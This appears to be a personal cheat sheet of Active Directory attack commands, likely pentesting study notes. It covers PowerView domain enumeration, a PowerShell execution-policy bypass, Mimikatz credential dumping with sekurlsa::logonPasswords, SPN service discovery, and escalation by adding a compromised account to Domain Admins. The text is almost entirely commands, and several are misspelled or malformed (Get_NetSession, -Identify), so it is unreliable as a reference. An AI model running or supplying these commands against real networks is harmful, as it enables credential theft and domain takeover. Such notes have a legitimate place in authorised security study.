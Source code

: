 ### basic command of domain
>sysdm.cpl   #computer config
dsa.msc  #AD mgr,add delete user
net userusername passwd /add /domain     #add domain user
net group "Domain Admins" clare /add /domain   #add a user to dmmain admin group
gpupdate /force      #update the gp group policy. \n
net share sharename=c:\foldername          # share a folder
setspn HTTP/nameofhost(sql.inmy.com) inmy\sqladmin

### emulate info of domain
powershell.exe -nop -exec bypass  #fireup the powershell
  #Powerview to emulate the domain infor;
Import-Module .\PowerView.ps1
Get-NetDOmain
>Get-NetUser | select cn
Get-NetGroup \n
  Get-NetComputer
  Find-LocalAdminAccess  #important

  Get_NetSession -ComputerName $computerName  #get other user which has net session with this host& not guarantee to use
    
  Get-NetLoggedon -ComputerName $cumputername # get remote access from other user. & not guarantee to use


### mimikaz :to get the hash of remote access admin
  privilege::debug    #run this first, to test the privi of mimikaz

  sekurlsa::logonPasswords  #to view the passwd or passwd hash of user login this host

###  check services running on this host or domain by spn
  Get-NetUser -SPN select serviceprincipalname, samaccountname

  net user sqladmin /domain

### check the privi of account to Domain admins grp "ActiveDirectoryRIghts" like gernericAll
  Get-objectAcl -Identify "Domain admins"   /only get the SID of the account

  Convert-SidToName $UID  /to convert

  / if we find a SID is diff from other,, try to compromise this ID
  / net group "Domain Admins" $username(which you controlled)  /add /domain
    / net group "Domain Admins" $username(which you controlled)  /del /domain
  
  

  
